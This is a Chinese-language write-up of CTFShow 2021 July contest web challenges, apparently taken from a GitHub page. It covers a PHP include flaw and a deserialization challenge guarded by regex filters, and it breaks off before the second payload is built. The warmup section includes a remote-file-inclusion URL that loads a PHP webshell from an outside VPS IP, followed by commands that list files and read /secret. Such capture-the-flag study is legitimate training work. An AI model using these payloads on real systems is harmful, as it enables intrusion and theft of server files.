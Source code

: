 # CTFShow2021七月赛Web



## warmup

```php
    $ext = pathinfo($_GET['file'], PATHINFO_EXTENSION);
    if($ext==='php'){
        include $_GET['file'];
    }
```

要求文件后缀为php，经过测试可以远程文件包含。VPS上写个php马直接包含即可。

```
?file=http://118.31.168.198:39543/feng.php
0=phpinfo();
```

存在disable_functions，拿函数绕一下即可。

```
0=var_dump(scandir('/'));
0=echo file_get_contents('/secret');
```



## cjbweb

反序列化，利用点：

```php
call_user_func($this->name,$this->msg);
```

但是有2个正则waf：

```php
        if(preg_match('/\d|\/|,|\([^()]*\([^()]*\)/',$this->msg)){
            $this->name="var_dump";
            $this->msg="You look dangerous!!!";
            $safe="I think waf is enough.";
        }
```

```php

    if(preg_match('/s:4:"name";s:\d:"v\w*"/',$info)){
        unserialize($info);
    }else{
        echo "I just love v";
    }
```

先看第一个正则waf，要求函数的参数不能有数字，斜杠，逗号，还有括号的什么组合，这个不重要。正常构造：
